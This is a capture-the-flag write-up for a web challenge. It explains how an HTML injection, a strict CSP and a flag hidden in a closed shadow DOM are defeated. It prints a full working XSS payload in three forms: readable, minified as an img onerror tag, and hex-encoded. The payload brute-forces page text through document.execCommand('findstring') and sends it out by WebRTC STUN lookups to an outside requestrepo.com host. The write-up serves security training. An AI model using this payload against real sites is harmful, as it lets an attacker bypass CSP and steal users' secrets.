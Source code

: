 # Locked Outisde

This is an easy client-side challenge

## Overview

We're given a few files
 - `server.js`: Contains the server code. We can see that the server serves files with a strict CSP:
```js
app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'none'; frame-ancestors 'none'; base-uri 'none'; form-action 'none'; script-src 'self' 'unsafe-inline';");
    next()
})
```

 - `iframe.ejs`: A simple HTML file with an obvious HTML injection:
```js
      let d = document.createElement("div");
      d.innerHTML = "<%= payload %>";
      document.body.appendChild(d);
```
 - `index.ejs`: The content of `index.ejs` will be put inside an iframe 

 - `bot.js`: Contains the bot code. It's clear that the flag will be stored in local storage. We can supply a payload to the `visit` function, which will then be viewed by the bot. Note that the bot will sleep for a short period after viewing our payload.

Finally, before inserting our payload, the flag will be placed inside a closed [https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_shadow_DOM](shadow DOM), making it inaccessible from JavaScript.

To bypass this restriction, we can use a deprecated feature: [document.execCommand](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand)

Specifically, we can use a lesser-known command: `findstring`:
 - `document.execCommand("findstring", false, <substring>)`, returns true if the substring is found, and false otherwise. I found it [here](https://chromium.googlesource.com/chromium/src/+/refs/tags/131.0.6778.244/third_party/blink/renderer/core/editing/commands/editor_command_names.h)


After brute-forcing the flag, we can split it into chunks and exfiltrate it using WebRTC or any other method that does not violate the CSP. 

Note: since our payload will be escaped, we had to encode it using the following function
```js
def encode(payload):
    result = ""
    for c in payload:
        result += "\\x" + hex(ord(c))[2:].zfill(2)
    return result
```

## Final Exploit
```js
(() => {
    function toHex(str) {
        let hex = '';
        for(let i = 0; i < str.length; i++) {
            hex += str.charCodeAt(i).toString(16);
        }
        return hex;
    }
    
    let flag = "TRX{";
    let charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}";
    for(let i = 0; i < 128; i++){
        for(let c in charset){
            res = document.execCommand("findstring", false, flag+charset[c]);
            if(res){
                flag += charset[c];
                break;
            }
        }
    }
    
    let chunkSize = 4;
    for (let i = 0; i < flag.length; i += chunkSize) {
        let chunk = flag.substring(i, i + chunkSize);
        console.log(chunk);
        let pc = new RTCPeerConnection({"iceServers":[{"urls":["stun:" + toHex(chunk) + "." + i + ".az5f3of1.requestrepo.com"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o => pc.setLocalDescription(o)).catch(e => console.error(e));
    }
    })();
```

You can then compress this and put it inside an `img` tag:
```html
<img src="#" onerror='(()=>{let o="TRX{";var r="abcdefghijklmnopqrstuvwxyz0123456789_{}";for(let e=0;e<128;e++)for(var t in r)res=document.execCommand("findstring",!1,o+r[t]),res&&(o+=r[t]);for(let e=0;e<o.length;e+=4){var n=o.substring(e,e+4);console.log(n);let r=new RTCPeerConnection({iceServers:[{urls:["stun:"+function(r){let o="";for(let e=0;e<r.length;e++)o+=r.charCodeAt(e).toString(16);return o}(n)+"."+e+".az5f3of1.requestrepo.com"]}]});r.createOffer({offerToReceiveAudio:1}).then(e=>r.setLocalDescription(e)).catch(e=>console.error(e))}})();'>
```

Encoded payload:
```js
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x22\x23\x22\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x27\x28\x28\x29\x3d\x3e\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x54\x52\x58\x7b\x22\x3b\x76\x61\x72\x20\x72\x3d\x22\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x5f\x7b\x7d\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x31\x32\x38\x3b\x65\x2b\x2b\x29\x66\x6f\x72\x28\x76\x61\x72\x20\x74\x20\x69\x6e\x20\x72\x29\x72\x65\x73\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x65\x78\x65\x63\x43\x6f\x6d\x6d\x61\x6e\x64\x28\x22\x66\x69\x6e\x64\x73\x74\x72\x69\x6e\x67\x22\x2c\x21\x31\x2c\x6f\x2b\x72\x5b\x74\x5d\x29\x2c\x72\x65\x73\x26\x26\x28\x6f\x2b\x3d\x72\x5b\x74\x5d\x29\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x6f\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x3d\x34\x29\x7b\x76\x61\x72\x20\x6e\x3d\x6f\x2e\x73\x75\x62\x73\x74\x72\x69\x6e\x67\x28\x65\x2c\x65\x2b\x34\x29\x3b\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x6c\x6f\x67\x28\x6e\x29\x3b\x6c\x65\x74\x20\x72\x3d\x6e\x65\x77\x20\x52\x54\x43\x50\x65\x65\x72\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x28\x7b\x69\x63\x65\x53\x65\x72\x76\x65\x72\x73\x3a\x5b\x7b\x75\x72\x6c\x73\x3a\x5b\x22\x73\x74\x75\x6e\x3a\x22\x2b\x66\x75\x6e\x63\x74\x69\x6f\x6e\x28\x72\x29\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x72\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x2b\x29\x6f\x2b\x3d\x72\x2e\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74\x28\x65\x29\x2e\x74\x6f\x53\x74\x72\x69\x6e\x67\x28\x31\x36\x29\x3b\x72\x65\x74\x75\x72\x6e\x20\x6f\x7d\x28\x6e\x29\x2b\x22\x2e\x22\x2b\x65\x2b\x22\x2e\x61\x7a\x35\x66\x33\x6f\x66\x31\x2e\x72\x65\x71\x75\x65\x73\x74\x72\x65\x70\x6f\x2e\x63\x6f\x6d\x22\x5d\x7d\x5d\x7d\x29\x3b\x72\x2e\x63\x72\x65\x61\x74\x65\x4f\x66\x66\x65\x72\x28\x7b\x6f\x66\x66\x65\x72\x54\x6f\x52\x65\x63\x65\x69\x76\x65\x41\x75\x64\x69\x6f\x3a\x31\x7d\x29\x2e\x74\x68\x65\x6e\x28\x65\x3d\x3e\x72\x2e\x73\x65\x74\x4c\x6f\x63\x61\x6c\x44\x65\x73\x63\x72\x69\x70\x74\x69\x6f\x6e\x28\x65\x29\x29\x2e\x63\x61\x74\x63\x68\x28\x65\x3d\x3e\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x65\x72\x72\x6f\x72\x28\x65\x29\x29\x7d\x7d\x29\x28\x29\x3b\x27\x3e
```
